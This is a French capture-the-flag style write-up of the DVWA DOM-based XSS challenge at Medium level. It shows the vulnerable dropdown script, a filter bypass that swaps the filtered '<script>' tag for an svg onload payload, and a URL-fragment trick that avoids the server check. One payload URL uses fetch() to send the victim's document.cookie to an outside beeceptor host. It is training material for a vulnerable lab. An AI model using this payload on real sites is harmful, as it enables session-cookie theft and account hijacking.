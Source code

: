 # Niveau "Medium"

Le niveau "Medium" repose sur le même principe : l'utilisateur peut changer de langue et la nouvelle valeur est envoyée au serveur via la paramètre `default` :

![](../../../../.gitbook/assets/c24856e9891049e19d3e12a33c4a96ae.png)

![](../../../../.gitbook/assets/eba42bd97501443278169d3343a8c7e9.png)

Le script permettant de renseigner dynamiquement la valeur sélectionnée dans le liste déroulante est toujours le même :

```markup
<form name="XSS" method="GET">
  <select name="default">
	<script>
	  if (document.location.href.indexOf("default=") >= 0) {
		  var lang = document.location.href.substring(document.location.href.indexOf("default=")+8);
			document.write("<option value='" + lang + "'>" + decodeURI(lang) + "</option>");
			document.write("<option value='' disabled='disabled'>----</option>");
		}
					    
		document.write("<option value='English'>English</option>");
		document.write("<option value='French'>French</option>");
		document.write("<option value='Spanish'>Spanish</option>");
		document.write("<option value='German'>German</option>");
	</script>
	</select>
	<input type="submit" value="Select" />
</form>
```

Lorsque je tente de récupérer le jeton de la victime en laissant l'envoi du paramètre au serveur je reçois une redirection **`302`** qui requête une URL avec en paramètre une valeur whitelistée :

![](../../../../.gitbook/assets/f0938fc949d8eb827b9eba495e72684e.png)

Je tente alors de contourner la protection en place. Au bout de quelques essais il apparaît que le mot clé `<script>` soit filtré. Pas de problème, d'autres moyens existent :

```markup
http://192.168.56.203:8080/vulnerabilities/xss_d/?default="></option></select><svg onload="fetch('https://domxss.free.beeceptor.com?cookie='+document.cookie)">
```

![](../../../../.gitbook/assets/48c112771351914b8f74a66fd7795dca.png)

Je reçois ainsi bien le cookie de la victime :

![](../../../../.gitbook/assets/173658120faea612b95bc67947d79b2c.png)

Mais comme vu précédemment, il est possible de valider très simplement ce challenge en utilisant la mécanique du fragment URL :

![](../../../../.gitbook/assets/bb22cf9fed7c4dd0fab695f076c19a3c.png)

Cela permet de s'affranchir complètement de la vérification effectuée côté serveur :

![](../../../../.gitbook/assets/b7a4c0b328dde5512c704cbd4402dc5e.png)
